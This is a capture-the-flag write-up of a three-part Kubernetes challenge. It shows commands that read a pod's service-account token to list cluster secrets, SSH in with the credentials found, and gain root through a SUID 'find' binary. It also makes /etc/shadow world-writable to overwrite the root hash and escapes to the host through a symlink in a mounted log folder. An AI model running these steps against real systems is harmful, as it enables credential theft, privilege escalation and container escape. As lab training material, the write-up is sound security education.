

# Les nuages menaçants 1/3

> Vous prenez une pause bien méritée et vous vous asseyez à une table. Vous regardez les nuages quand un homme s'approche de vous :<br>
> « Vous aussi les nuages vous passionnent ? Je vous proposerai bien une madeleine, mais c'est ma dernière... Mais j'oublie l'essentiel : je suis Marcel Proust. »
>
> Il prend quelques minutes pour contempler les nuages, puis il reprend :<br>
> « Les nuages m'ont toujours passionné... J'ai entendu parler d'un nouveau type de nuage récemment, pouvez-vous me donner ses secrets ? »
> 
> Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN<br>
> Le challenge peut prendre quelques minutes à se lancer.

After connecting, I poked around in the container's files, I found a reference to k8s in the hosts file.
As I didn't know many thing about kubernetes, I searched on internet about k8s security and found the amazing [guide from Hacktriks](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/kubernetes-enumeration).

I used their very usefull shortcut for querying k8s without `kubectl` binary:
```bash
export APISERVER=10.43.0.1:443
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
export CACERT=${SERVICEACCOUNT}/ca.crt
alias kurl="curl --cacert ${CACERT} --header \"Authorization: Bearer ${TOKEN}\""
# if kurl is still got cert Error, using -k option to solve this.
```

Using `kurl`, I can query for my privileges: 
```bash
kurl -i -s -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"kind\":\"SelfSubjectRulesReview\",\"apiVersion\":\"authorization.k8s.io/v1\",\"metadata\":{\"creationTimestamp\":null},\"spec\":{\"namespace\":\"default\"},\"status\":{\"resourceRules\":null,\"nonResourceRules\":null,\"incomplete\":false}}\x0a' \
    "https://$APISERVER/apis/authorization.k8s.io/v1/selfsubjectrulesreviews"
```
Response was that I could query namespace list, secrets, so I queried those endpoints:
```kurl -k https://$APISERVER/api/v1/namespaces/```<br>
In this one, I found a namespace called `404CTF` and queried its secrets:
```kurl -v https://$APISERVER/api/v1/namespaces/404ctf/secrets/```

There were 2 interesting things: the flag and a user/password combo *(in base64)*:<br>
- User: `proust`
- Password: `les_nuages`
- Flag: `404CTF{Attention_aux_secrets!}`

# Les nuages menaçants 2/3

> Après avoir trouvé les secrets du nuage, vous les racontez à Proust. Celui-ci vous demande alors d'aller explorer le nuage plus en profondeur.
>
> Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN<br>
> Le challenge peut prendre quelques minutes à se lancer.<br>
> Le flag est dans /flag.txt.

After getting the credentials, I needed to find where to use them.<br>
In the dpkg log file, I found out that nmap had been installed on the server... I was pretty sure I needed to find another server and ssh into it.<br>
Using `nmap` on the subnet, I found `10.42.0.13` had an SSH server open, and the crendentials work !

I just enumerated `/` and found `flag.txt`, readable by `proust` user.

Flag: `404CTF{A_la_Recherche_De_La_Racine}`

# Les nuages menaçants 3/3

> Après avoir exploré tous les recoins du nuage, Proust s'exclame :<br>
> « Pouvez-vous en prendre le contrôle ? J'ai toujours voulu pouvoir diriger les nuages !
>
> Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN<br>
> Le challenge peut prendre quelques minutes à se lancer.<br>
> Le flag est dans /flag.txt sur l'hôte directement.

I found the last part of this serie way harder than the previous ones and tried many false leads.

One of the escape route I was most interested in (in the Hacktriks guide) was using the hosts log folder, if it was mounted.<br>
And it was!<br>
But only root could write in it... so this path was wrong and I needed to find another way out (or so I thought).

Looking in every folder on this server with `find`, I found some ssh private keys in `/etc/ssh` for a root user, probably for the host machine.<br>
I spent a lot of time trying to find the host machine, going back to the previous server and scanning even larger subnets with nmap, only to find nothing.

At this point I was pretty lost on what to do, every way out I thought of needed me to get `root` on the `10.42.0.13` server. However no kernel exploit I tried worked (no gcc on the server).<br>
So there was no way for me to get root...unless the answer had been right before my eyes since the beginning: the `find` binary.<br>
The `find` binary had the suid of the `root` user, meaning that launching find would launch it as if it was `root` that started it.<br>
And `find` has an option to run a command on the files it founds, it was now easy to get root: `find <random_file> -exec "/bin/bash" -p \;`.<br>
> Before the next part of the getting the flag, I spent some time looking for a way to change the root password just I could have a nicer shell, and I learned something!<br>
> `chmod 777 /etc/shadow`<br>
> Then in python:<br>
> ```python
> f = open('/etc/shadow', 'r').read()
> 
> f2 = 'root:'
> f2 += <proust_hash>
> f2 += <next_part_of_f>
> 
> fil = open('/etc/shadow', 'w')
> fil.write(f2)
> fil.close()
> ```
> And there I had copied `proust`'s password for the root user.

Now that I had root, I could proceed with the exploit using the host's logs.<br>
First thing to do is create a symlink for `/` in the mounted logs folder: `ln -sn / /var/host/log/root_link`<br>
Then using `kurl`, I could query for the log file `root_link/flag.txt` which would redirect to the host's `flag.txt` (the log query is handled on the host): `kurl -k https://10.42.0.1:10250/logs/root_link/flag.txt` 

Flag: `404CTF{les_journaux_sont_parfois_traitres}`


Thanks *Typhlos#9037* for creating this amazing challenges, it was a very nice introduction to kubernetes security!

<p align="center" style="font-style: italic;">
now it's time to get out<br>

</p>